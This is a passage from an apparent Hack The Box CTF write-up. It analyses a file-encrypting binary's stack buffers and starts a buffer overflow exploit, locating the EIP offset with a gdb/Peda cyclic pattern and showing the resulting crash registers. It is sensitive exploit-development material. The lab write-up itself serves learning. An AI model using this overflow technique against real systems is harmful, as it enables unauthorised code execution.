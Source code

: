 ```
      fclose(fd_output);
    }
  }
  return;
}

```

This is also dead simple. It:
- prompts for input and output file names;
- gets metadata on the file;
- if the file is owned by root, print error and exit;
- otherwise read input file one byte at a time, XOR with 0x9b, and write it to the output.

It’s worth noting that the two file names are read into 20-byte buffers on the stack, ordered like:

![image-20210930083358132](https://0xdfimages.gitlab.io/img/image-20210930083358132.png)

`user_infile` is readinfile is read, and then `user_outfile`. If `user_outfile` is longer than 20 characters (including a terminating null), it will overwrite into the start of `user_infile`. Then `stat` is called on `user_infile`. The result would overwrite the end of `user_infile` if it is longer than 20 bytes. There are some tricks I could play here, but if I want to use the legit functionality, I need to keep both paths under 20 bytes.

### Return to Encrypt

#### EIP Offset

I need to know how far into the `name` buffer is the return address. I can use `pattern_create` from within [Peda](https://github.com/longld/peda) in `gdb`, and give that as my name:

```

gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /media/sf_CTFs/hackthebox/overflow-10.10.11.119/file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb

```

Then it crashes at a seg fault:

```

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x5b ('[')
EBX: 0x61414145 ('EAAa')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7fa7000 --> 0x1e4d6c 
EDI: 0xf7fa7000 --> 0x1e4d6c 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffceb0 --> 0xf7004162 
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffceb0 --> 0xf7004162 
0004| 0xffffceb4 --> 0xffffced0 --> 0x1 
0008| 0xffffceb8 --> 0x0 
0012| 0xffffcebc --> 0xf7de0e46 (<__libc_start_main+262>:       add    esp,0x10)
```